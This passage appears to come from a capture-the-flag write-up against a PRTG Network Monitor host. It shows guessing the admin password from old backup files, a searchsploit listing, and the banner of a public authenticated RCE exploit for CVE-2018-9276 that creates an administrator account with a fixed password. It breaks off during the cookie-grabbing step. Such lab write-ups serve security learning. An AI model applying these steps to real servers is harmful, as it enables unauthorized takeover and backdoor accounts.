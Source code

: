 We try PrTg@admin2018 as password but doesn't work, since we have 3 files, .old.bak from 2018 and the others from 2019, let's try to login with prtgadmin:PrTg@admin2019:

![PRTG HOME](IMG/prtg_home.jpg)

Check PRTG Vuln:

```shell
└──╼ $searchsploit PRTG
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution                                                                                        | windows/webapps/46527.sh
PRTG Network Monitor 20.4.63.1412 - 'maps' Stored XSS                                                                                                       | windows/webapps/49156.txt
PRTG Network Monitor < 18.1.39.1648 - Stack Overflow (Denial of Service)                                                                                    | windows_x86/dos/44500.py
PRTG Traffic Grapher 6.2.1 - 'url' Cross-Site Scripting                                                                                                     | java/webapps/34108.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
└──╼ $./prtg-exploit.sh

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 
 EXAMPLE USAGE: ./prtg-exploit.sh -u http://10.10.10.10 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1" 

```

Get cookie information (Q inspect element after login, go to storage Cookies:
